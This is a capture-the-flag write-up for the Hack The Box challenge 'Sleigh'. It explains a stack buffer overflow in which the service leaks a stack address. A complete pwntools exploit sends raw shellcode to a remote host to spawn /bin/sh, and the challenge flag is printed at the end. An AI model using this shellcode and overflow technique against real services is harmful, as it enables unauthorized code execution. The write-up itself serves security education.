


# Pwn :: Sleigh

*The Elves have messed up with Santa's sleigh! Without it, he will not be able to deliver any gifts!! Help him repair it and save the holidays!*

### Challenge Files: [pwn_sleigh.zip](pwn_sleigh.zip)

For this challenge you are provided with the **sleigh** executable and a network service to connect to. When you connect to the service, you see another text adventure but this time there is something interesting. The "repair" option, gives you a memory address that was apparently taped to the underside of the sleigh.
After entering a message to give to the elves, you are told that they aren't able to repair the sleigh and all hope is lost.



Looking in Ghidra at the repair function, we can see that some space is allocated for variables and then the address that is printed is the top of the stack. There is no target function to print the flag this time around so obviously we need to work towards getting a shell instead.

As the name "sleigh" implies, we're aiming to put some shell code into this space provided and then nop sled our way into it. However, this isn't even needed because we know the exact landing area we are going to hit since we are given the address.

After a little bit of fiddling with the provided executable, I was able to create a script that reads the target address (which changes every run due to ASLR), constructs payload that launches /bin/sh and passes it into the network service with pwntools before switching over to interactive mode.

```python
from pwn import *

C = remote("178.128.35.31",30598)

C.recvuntil(b"> ")
C.send(b"1")

C.recvuntil(b"sleigh: [0x")
addr = C.recvuntil(b"]")[:-1].decode()
addr = bytearray.fromhex(addr)
addr.reverse()

SS = b"\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x31\xC0\x99\x31\xF6\x54\x5F\xB0\x3B\x0F\x05"
PAYLOAD = SS + b"\x00" * 47 + addr + b"\x00\x00"

C.recvuntil(b"> ")
C.send(PAYLOAD)
C.recvuntil(b"\n")
C.recvuntil(b"\n")
C.interactive()
```

Once we have a shell spawned, we can simply list the folder contents and then read flag.txt



```HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}```
